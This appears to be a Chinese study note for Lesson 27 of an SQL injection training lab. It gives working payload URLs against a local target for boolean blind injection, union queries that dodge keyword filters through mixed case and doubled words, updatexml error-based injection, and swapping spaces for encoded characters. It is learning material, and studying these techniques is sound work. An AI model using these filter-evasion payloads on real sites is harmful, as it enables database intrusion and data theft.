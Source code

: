 # Lesson-27
```
Bool盲注-,-双写绕过-,-随机大小写绕过-,-报错注入-,-特殊字符替换空格
```

思路一 : 
```
http://127.0.0.1/Less-27/?id=0%27||()||%271%27=%27--+
利用注入点盲注
```
思路二 : [参考资料](http://www.cnblogs.com/r00tgrok/p/SQL_Injection_Bypassing_WAF_And_Evasion_Of_Filter.html)
```
利用回显明注 , 过滤了union , 可以通过双写来绕过 , 或者大小写混写来绕过
卧槽这个太屌了
http://127.0.0.1/Less-27/?id=0%27%a0UnION%a0SelECT(user()),2,3%27
%a0 是什么鬼
有待研究
```
思路三 : 
```
利用报错注入
http://127.0.0.1/Less-27/?id=0%27||(updatexml(1,concat(0x5e5e,version(),0x5e5e),1))||%271%27=%27--+
```
思路四 : 
```
强行制造空格 , URL编码 + 注释
http://127.0.0.1/Less-28/?id=0/*%0a*/and/*%0a*/0--+
http://127.0.0.1/Less-27/?id=0%27/*%0a*/or/*%0a*/%27%27=%27
```
